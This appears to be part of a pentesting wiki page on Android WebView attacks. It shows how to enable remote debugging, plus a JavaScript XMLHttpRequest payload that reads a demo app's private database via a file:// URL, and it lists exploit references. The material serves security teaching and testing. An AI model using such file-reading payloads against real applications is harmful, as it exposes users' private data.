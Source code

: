 - **Remote debugging** is possible with **Chrome Developer Tools**, enabling interaction and arbitrary JavaScript execution within the WebView content.

#### Enabling Remote Debugging

- Remote debugging can be enabled for all WebViews within an application by:

```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
    WebView.setWebContentsDebuggingEnabled(true);
}
```

- To conditionally enable debugging based on the application's debuggable state:

```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
    if (0 != (getApplicationInfo().flags & ApplicationInfo.FLAG_DEBUGGABLE))
    { WebView.setWebContentsDebuggingEnabled(true); }
}
```

## Exfiltrate arbitrary files

- Demonstrates the exfiltration of arbitrary files using an XMLHttpRequest:

```javascript
var xhr = new XMLHttpRequest()
xhr.onreadystatechange = function () {
  if (xhr.readyState == XMLHttpRequest.DONE) {
    alert(xhr.responseText)
  }
}
xhr.open(
  "GET",
  "file:///data/data/com.authenticationfailure.wheresmybrowser/databases/super_secret.db",
  true
)
xhr.send(null)
```

## References

- [Review of Android WebViews file access attack vectors](https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html)
- [WheresMyBrowser.Android (demo app)](https://github.com/authenticationfailure/WheresMyBrowser.Android)
- [Android WebView reference](https://developer.android.com/reference/android/webkit/WebView)
- [Deep Links & WebViews Exploitations – Part II](https://medium.com/@justmobilesec/deep-links-webviews-exploitations-part-ii-5c0b118ec6f1)
- [Deep Links & WebViews Exploitations – Part I](https://www.justmobilesec.com/en/blog/deep-links-webviews-exploitations-part-I)
- [Samsung S24 Exploit Chain Pwn2Own 2024 Walkthrough](https://medium.com/@happyjester80/samsung-s24-exploit-chain-pwn2own-2024-walkthrough-c7a3da9a7a26)
- [Pwn2Own Ireland 2024 – Samsung S24 attack chain (whitepaper)](https://maliciouserection.com/2025/05/13/pwn2own-ireland-2024-samsung-s24-attack-chain-whitepaper.html)
- [Demonstration video](https://www.youtube.com/watch?v=LAIr2laU-So)
- [Account takeover in Android app via JSB – tuxplorer.com](https://tuxplorer.com/posts/account-takeover-via-jsb/)
- [LSPosed – systemless Xposed framework](https://github.com/LSPosed/LSPosed)
- [Frida codeshare: Cordova – enable WebView debugging](http://codeshare.frida.re/@gameFace22/cordova---enable-webview-debugging/)

{{#include ../../banners/hacktricks-training.md}}


